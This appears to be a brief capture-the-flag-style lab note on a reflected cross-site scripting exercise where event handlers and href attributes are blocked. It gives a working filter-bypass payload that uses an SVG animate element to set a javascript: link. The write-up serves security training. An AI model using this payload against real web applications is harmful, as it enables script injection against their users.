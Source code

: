 ## ****LAB 14: Reflected XSS with event handlers and `href` attributes blocked**

![Untitled](Reflected%20XSS%206579ade954e9409aba5dc0b497c2c3a7/Untitled%2026.png)

Allowed tags, none attribute. Combining 

```jsx
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```